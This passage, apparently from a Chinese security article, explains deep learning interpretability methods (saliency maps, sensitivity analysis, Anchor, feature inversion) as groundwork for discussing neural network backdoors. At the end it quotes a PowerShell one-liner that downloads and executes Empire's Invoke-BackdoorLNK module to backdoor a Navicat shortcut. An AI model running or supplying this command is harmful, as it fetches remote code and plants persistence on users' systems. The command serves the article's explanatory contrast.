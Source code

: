 得到x*后对其可视化，则可以帮助我们理解该神经元在其感受野中所捕获到的内容。

如Karen等人的工作[17],其方案是针对图像分类模型的可视化，实现了两种可视化技术，其一是生成一个图像，最大化类分数，从而可视化由卷积网络捕获的类的概念。第二种技术特定于给定的图像和类，计算一个类显著图。这些技术可以帮助解释模型是如何进行分类决策的。

部分实验如下所示

[![](https://p2.ssl.qhimg.com/t01e647d2c4e82146fa.png)](https://p2.ssl.qhimg.com/t01e647d2c4e82146fa.png)

这是ILSVRC-2013竞赛图像中排名靠前的预测类的图像特定类显著图saliency map，这些图是使用单次反向传播通过分类卷积网络提取的。直观的来说，之所以会将中间图片分类为金丝猴，是因为其对应的显著图中亮起来的部分（及金丝猴的身子），而不是因为树枝等其他原因才将其识别为金丝猴。

从局部可解释性角度的工作相较于全局可解释性的工作更多，因为模型的不透明性、复杂性等问题使得做出全局解释更加困难。这里也简单列举三种类型。

1）敏感性分析

敏感性分析是指在给定假设下，定量分析相关自变量的变化对因变量的影响程度，核心思想是通过逐一改变自变量的值来解释因变量受自变量变化影响大小的规律。将其应用于模型局部解释方法中，可以用来分析样本的每一维特征对模型最终分类结果的影响，以提供对某一个特定决策结果的解释。

Li[18]等人的工作指出，通过观察修改或删除特征子集前后模型决策结果的相应变化的方式来推断待解释样本的决策特征。其中一个实验结果如下

[![](https://p2.ssl.qhimg.com/t01b99ee83bc15223cc.png)](https://p2.ssl.qhimg.com/t01b99ee83bc15223cc.png)

这是通过Bi-LSTM模型获得的具有较高负重要性得分（使用公式1计算）的单词。负重要性意味着删除单词时模型会做出更好的预测。 ++，+，0，–，–分别表示正性，正性，中性，负性和强烈的负面情绪标签。

2）局部近似

这种方法的核心思想是利用结构简单的可解释模型拟合待解释模型针对某一输入实例的决策结果，然后基于解释模型对该决策结果进行解释。

Ribeiro等人[19]提出了一种称之为锚点解释(Anchor)的局部解释方法，针对每一个输入实例，该方法利用被称之为“锚点”的if-then 规则来逼近待解释模型的局部边界。下图是其实验结果

[![](https://p4.ssl.qhimg.com/t01a99810eafb22525d.png)](https://p4.ssl.qhimg.com/t01a99810eafb22525d.png)

上图中，在d中，我们设置的锚点是what，可视化后可以看到b中只保留了小猎犬的图像，而回答为dog，在e中锚点同样为加粗的词，结合c中可视化后的图像，可以看到保留了相关特征，从而顺利回答对应问题。

3）特征反演

特征反演可视化和理解DNN中间特征表征的技术，可以充分利用模型的中间层信息，以提供对模型整体行为及模型决策结果的解释。Dumengnao等人的工作[20]基于该思想，设计的方案可以了解输入样本中每个特征的贡献，此外通过在DNN的输出层进一步与目标类别的神经元进行交互，使得解释结果具有类区分性。其中一个实验结果如下

[![](https://p1.ssl.qhimg.com/t014f0a0a2f7c7bb0c5.png)](https://p1.ssl.qhimg.com/t014f0a0a2f7c7bb0c5.png)

这是在三种类型的DNN上应用提出的方案进行解释，其中热力图明显区域正是模型做出判断时关注的区域。

 

## 0x04

在讨论深度学习安全性的文章里花了这么多的篇幅来引入可解释性，原因在于，对于我们后面即将介绍的攻击手段而言，正是因为深度学习存在不可解释性，所以攻防过程并不直观，这也就意味着攻防双方博弈时可操作的空间很大。

以后门攻防为例。

后门植入神经网络的过程并不直观，不像我们传统软件安全里嵌入后门时，加一段代码即可，比如下面这段代码

“”powershell-nop -exec bypass -c “IEX (New-ObjectNet.WebClient).DownloadString(‘https://github.com/EmpireProject/Empire/raw/master/data/module_source/persistence/Invoke-BackdoorLNK.ps1’);Invoke-BackdoorLNK-LNKPath ‘C:\ProgramData\Microsoft\Windows\StartMenu\Programs\PremiumSoft\Navicat Premium\Navicat Premium.lnk’ -EncScript Base64encode”
